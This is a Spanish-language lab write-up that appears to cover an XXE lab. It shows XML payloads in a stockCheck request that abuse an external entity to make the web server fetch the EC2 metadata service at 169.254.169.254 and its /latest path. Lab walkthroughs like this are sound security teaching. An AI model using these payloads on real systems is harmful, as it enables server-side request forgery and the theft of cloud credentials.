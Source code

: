 Podemos apreciar que tenemos conexión con el servidor web, pero no con la máquina EC2 a la que el servidor web si tiene acceso.

Y en caso de que ese servidor tenga capacidad de **directory listing** podremos ver datos y buscar algo valioso.



Así que ahora a través de la vulnerabilidad XML, llamaremos a la IP del servidor EC2, y como la petición la interpretará el servidor web y ese servidor web tiene acceso al EC2, entonces nos podrá listar algo en caso de estar habilitado un **directory listing**.

Nuestra consulta se verá así:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Y vemos que al tramitar la petición nos responde lo siguiente:

![latest](/assets/images/LabsXXE/lab2/latest.png)

Podemos apreciar que nos ha listado una ruta llamada **latest** en el mensaje de respuesta, así que agregaremos ese valor a la url de la entidad y veremos que queda así:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```
